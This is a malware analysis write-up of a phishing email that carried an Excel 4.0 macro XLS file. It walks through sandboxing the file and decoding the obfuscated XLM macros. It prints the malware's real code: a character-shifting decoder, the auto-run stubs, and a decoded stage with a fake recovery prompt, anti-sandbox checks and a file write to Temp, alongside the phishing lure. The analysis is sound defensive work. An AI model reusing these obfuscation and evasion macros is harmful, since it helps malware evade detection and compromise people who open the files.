


## Excel 4.0 Macro Malware

### The Phish

A user was sent a phishing email with an XLS attachment.
While the user did download the attachment, the
endpoint protection detected and quarantined it before
the user was able to open in Excel.

```email
Date: Thu, 15 Oct 2020 15:11:26 +0000 (UTC)
From: Cailyn Lam <russ8ian@aol.com>
Reply-To: Cailyn Lam <russ8ian@aol.com>
To: "username@DOMAIN.com" <username@DOMAIN.com>
Message-ID: <2197215096.990473.160274656733@mail.yahoo.com>
Subject: Contract # 2472 info

Hello
Details regarding receipt. Please verify all documentation that are attached to the
e-mail - if you will have any questions or comments, feel free to contact us.

Best Wishes,

Cailyn Lam

----------------------------------------
Attachment:
TU.2472.xls (44 KB)
SHA-256: 7a2e95ca80977a33353766d3c50a460d77edd5bfda3b1d646f58f21e28500374
```

### The Attachment

Using the endpoint protection, the XLS was acquired from quarantine.
The name of the file was `TU.2472.xls`.  The number in the file matched
the number used in the Subject line.  Perhaps something in the file
is unique for each recipient.

### Sandbox Round 1

Using Cisco Threat Grid, the XLS was run in a sandbox.  On Excel 2010 the macro engaged and prompted
the user with a dialog for OK or Cancel.  Later sandboxing with Excel 2016 the
macro was not immediately run, but the user had the opportunity to enable macros.



### Sandbox Round 2

In order to reverse engineer the scripts, a clone was made
of Windows 10 within VirtualBox.  The XLS was copied locally to the guest.
The network was disabled and shared volume removed.
At this point Windows is isolated and the macro can safely be run.

To open the XLS without the AutoExec engaging, the shift key
would be held down while opening until the file was fully opened.

### Obfuscated Scripts

A number of methods were observed to help hide the
scripts from static analysis.

Firstly the scripting functions were scattered vertically.



Secondly, some sections of the script are encoded.


There are sets of numbers used to decode the script sections.


### Initial Scripts

There were three chunks of visable scripts.

Beginning at row 114 column 9, which is notated R114C9, there is
a decoding macro.

```code
QHCqndr=SUM(NOT(GET.WORKSPACE(19)),0)
gIuEM=(0)
=WHILE(AND(QHCqndr<ROWS(IYMzxPVq)))
eSIKsvvuZr=""
QHCqndr=QHCqndr+INT(NOT(GET.WORKSPACE(31)))
oOLxlGZAiv=INDEX(IYMzxPVq,QHCqndr)
QpxiCtBQbD=LEN(oOLxlGZAiv)
aYYfTyFk=(0)
=WHILE(AND(aYYfTyFk<QpxiCtBQbD))
aYYfTyFk=aYYfTyFk+(1)
eSIKsvvuZr=eSIKsvvuZr&CHAR(CODE(MID(oOLxlGZAiv,aYYfTyFk,1))-INDEX(VNfETad,MOD(gIuEM,ROWS(VNfETad))+(1)))
gIuEM=gIuEM+(1)
=NEXT()
=(SUM(1)+COUNT(SUM(MIN(FORMULA.FILL(""&eSIKsvvuZr,""&("T5WQfulGrqYU!R"&ZIlrOZKX&"C"&DKrpQbiHd))))))
ZIlrOZKX=ZIlrOZKX+QUOTIENT(INT(GET.WORKSPACE(5)),1)
=NEXT()
=RETURN()
```

Next at R169C9 is the macro that is somehow auto run.  At this point
I have't figured out how this get invoked on open.

```code
ENFPdsduyvKo=R114C9
IYMzxPVq=R659C9:R677C9
VNfETad=R1643C4:R1652C4
ZIlrOZKX=189*(1)
DKrpQbiHd=9*(1)
=RUN(ENFPdsduyvKo)
```

Lastly is at R212C9 is the following.

```code
IYMzxPVq=R1166C3:R1241C3
VNfETad=R1780C6:R1787C6
ZIlrOZKX=231*(1)
DKrpQbiHd=9*INT(GET.WORKSPACE(42))
=RUN(ENFPdsduyvKo)
```

### Decoding Round 1

The macro at R169C9 specifies what to decode and essentially
runs the decoded macro.  Here it is again with commentary.

```code
ENFPdsduyvKo=R114C9      <-- R114C9 is location of the decoding macro
IYMzxPVq=R659C9:R677C9   <-- This range is the encoded macro
VNfETad=R1643C4:R1652C4  <-- This range is a set of number to be used in decoding
ZIlrOZKX=189*(1)         <-- Row to land the decoded macro
DKrpQbiHd=9*(1)          <-- Column to land the decode macro
=RUN(ENFPdsduyvKo)       <-- Invoke the decoder
```

R189C9 is the cell immediately below the =RUN().  So as soon
as the decoding macro returns, the decoded lines are executed.
Here is what that decode macro looks like.

```code
=FORMULA(LEN(APP.MAXIMIZE())+124,R1780C6)
=FORMULA(LEN(ALERT("We found some problem with """&GET.DOCUMENT(88)&""". Do you want us to try recover as much as we can?",1))+110,R1781C6)
=FORMULA(LEN(OR(GET.WINDOW(7),GET.WORKSPACE(31),GET.WORKSPACE(14)<390))+121,R1782C6)
=FORMULA(LEN(AND(GET.WINDOW(20),GET.WORKSPACE(19)))+116,R1783C6)
=NOW()
=WAIT(NOW()+"00:00:02")
=NOW()
=FORMULA(LEN((R195C9-R193C9)*100000>2.3)+108,R1784C6)
=FORMULA(LEN(AND(GET.DOCUMENT(88)=GET.WINDOW(31),GET.WINDOW(31)=GET.WORKBOOK(16),GET.WORKBOOK(16)=INDEX(WINDOWS(),1),INDEX(WINDOWS(),1)=MID(GET.DOCUMENT(76),2,LEN(GET.DOCUMENT(88)))))+129,R1785C6)
=FORMULA(LEN(AND(MID(GET.DOCUMENT(76),2,LEN(GET.DOCUMENT(88)))=MID(GET.WINDOW(1),2,LEN(GET.DOCUMENT(88))),MID(GET.WINDOW(1),2,LEN(GET.DOCUMENT(88)))=MID(GET.WINDOW(30),2,LEN(GET.DOCUMENT(88)))))+115,R1786C6)
=ISNUMBER(SEARCH("Windows",GET.WORKSPACE(1)))
p=LEFT(GET.WORKSPACE(23),(FIND("Roaming",GET.WORKSPACE(23),1)-1))&"Local\Temp\"
n=CHAR(13)
=FOPEN(p&"wr9VU0m.dat",3)
=WHILE(FSIZE(R202C9)<190)
=FWRITE(R202C9,CHAR(RANDBETWEEN(33,125)))
=NEXT()
=FORMULA(LEN(FSIZE(R202C9)=190)+103,R1787C6)
=FCLOSE(R202C9)

```
